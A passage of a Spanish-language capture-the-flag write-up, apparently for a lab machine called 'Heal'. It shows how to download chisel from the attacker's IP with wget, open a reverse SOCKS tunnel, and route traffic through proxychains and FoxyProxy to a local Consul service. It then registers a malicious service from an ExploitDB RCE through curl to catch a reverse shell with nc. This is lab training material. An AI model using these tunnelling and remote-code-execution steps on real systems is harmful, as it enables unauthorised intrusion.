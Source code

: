 ```sh
wget http://<tu_ip>/chisel
```

Una vez transferido, crearemos el servidor desde nuestra máquina con el siguiente comando:

```sh
./chisel server -p 1234 --reverse
```

Y desde la máquina víctima:

```sh
./chisel client <tu_ip>:1234 R:socks
```

Finalmente, para poder utilizar este tunel tendremos que modificar el archivo **/etc/proxychains4.conf** de nuestra máquina añadiendo la siguiente línea:

![Pic]({{ '/assets/img/heal/19pic.png' | relative_url }}){: .center-image }

> En caso de tener problemas asegurate de que **Dynamic_chain** esté comentado y **strict_chain** descomentado.

Para ver estos servicios directamente en nuestro navegador, es necesario utilizar **[FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)** y crear un proxy como el siguiente:

![Pic]({{ '/assets/img/heal/20pic.png' | relative_url }}){: .center-image }

Si ahora tratamos de acceder a por ejemplo, el localhost por el puerto 8500, veremos el contenido de ese servicio.

![Pic]({{ '/assets/img/heal/21pic.png' | relative_url }}){: .center-image }

En este caso se está empleando un CMS llamado **Consul**, en la esquina inferior izquierda está expuesta su versión.

Buscando un poco por internet encontramos un RCE o ejecución remota de comandos en [ExploitDB](https://www.exploit-db.com/exploits/51117). Analizando el código vemos que trata de crear un nuevo servicio en formato json.

Para explotar esto podemos copiar ese payload en un archivo service.json, cambiar los argumentos 3 y 4 por nuestra IP y el puerto donde queramos la reverse shell.

![Pic]({{ '/assets/img/heal/22pic.png' | relative_url }}){: .center-image }

Finalmente con curl podemos registrar el servicio y en el puerto en el que estemos a la escucha recibiremos una consola.

```sh
nc -lvnp 443
```

```sh
proxychains curl -X PUT --data-binary @service.json http://127.0.0.1:8500/v1/agent/service/register
```

![Pic]({{ '/assets/img/heal/23pic.png' | relative_url }}){: .center-image }

Y en la interfaz web veremos como se ha creado nuestro servicio.

![Pic]({{ '/assets/img/heal/24pic.png' | relative_url }}){: .center-image }

Pwned!



